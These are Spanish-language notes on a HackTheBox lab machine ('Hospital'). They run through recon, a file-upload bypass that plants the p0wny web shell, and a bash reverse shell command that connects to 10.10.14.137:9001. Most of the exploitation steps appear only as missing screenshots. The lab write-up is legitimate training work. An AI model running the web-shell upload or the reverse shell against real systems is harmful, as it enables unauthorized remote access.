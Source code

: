 #windows #fuzzing #medium 
### Ping
```python
ping -c 1 10.10.11.241
PING 10.10.11.241 (10.10.11.241) 56(84) bytes of data.
64 bytes from 10.10.11.241: icmp_seq=1 ttl=127 time=77.1 ms

--- 10.10.11.241 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 77.090/77.090/77.090/0.000 ms
```

### TTL 127= Windows 

### nmap
```python
PORT     STATE SERVICE           VERSION
22/tcp   open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-04-12 22:03:50Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
443/tcp  open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
1801/tcp open  msmq?
2103/tcp open  msrpc             Microsoft Windows RPC
2105/tcp open  msrpc             Microsoft Windows RPC
2107/tcp open  msrpc             Microsoft Windows RPC
2179/tcp open  vmrdp?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3269/tcp open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2024-04-12T22:04:46+00:00
| ssl-cert: Subject: commonName=DC.hospital.htb
| Not valid before: 2024-04-11T16:53:57
|_Not valid after:  2024-10-11T16:53:57
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6404/tcp open  msrpc             Microsoft Windows RPC
6406/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6407/tcp open  msrpc             Microsoft Windows RPC
6410/tcp open  msrpc             Microsoft Windows RPC
6617/tcp open  msrpc             Microsoft Windows RPC
6631/tcp open  msrpc             Microsoft Windows RPC
6645/tcp open  msrpc             Microsoft Windows RPC
8080/tcp open  http              Apache httpd 2.4.55 ((Ubuntu))
| http-title: Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.55 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
9389/tcp open  mc-nmf            .NET Message Framing
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h58m48s, deviation: 0s, median: 6h58m47s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-04-12T22:04:47
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.81 seconds
```

### Enumeración del puerto 53 (Domain)
`dig`
![[Pasted image 20240412115907.png]]

`dnsrecon -d hospital.htb -a -n 10.10.11.241`
![[Pasted image 20240412115733.png]]

### Enumeración del puerto 88 (Kerberos)
por el momento solo tenemos un usuario valido. administrator
![[Pasted image 20240412122215.png]]

### impacket-GetNPUsers
intentamos obtener un `TGT` pero el usuario no tiene `UF_DONT_REQUIRE_PREAUTH` por lo cual no podremos obtener un `TGT`
![[Pasted image 20240412122450.png]]

### Enumeración del puerto 8080 (http)
después de intentar un usuario inexistente nos envía a una pagina para crear un usuario 
![[Pasted image 20240412124323.png]]


![[Pasted image 20240412124252.png]]

`iniciamos session`
encontramos una web que nos permite subir archivos en este caso imagenes
![[Pasted image 20240412231100.png]]

usaremos el repositorio [github](https://github.com/flozz/p0wny-shell?source=post_page-----ce86940a895f--------------------------------) para cargar una shell de navegador. para ello debemos cambiar el nombre del archivo de .php a png luego vamos a interceptar esta peticion con burpsuite 
![[Pasted image 20240412232907.png]]

cambiamos la extension del 
![[Pasted image 20240412233144.png]]

aqui obtenemos una shell que nos permite intereactuar de manera mas facil con el sistema. y aprovechando este usaremos el comando `bash -c "bash -i >& /dev/tcp/10.10.14.137/9001 0>&1"` para obtener una reverse shell mas estable
![[Pasted image 20240412232653.png]]


![[Pasted image 20240412232205.png]]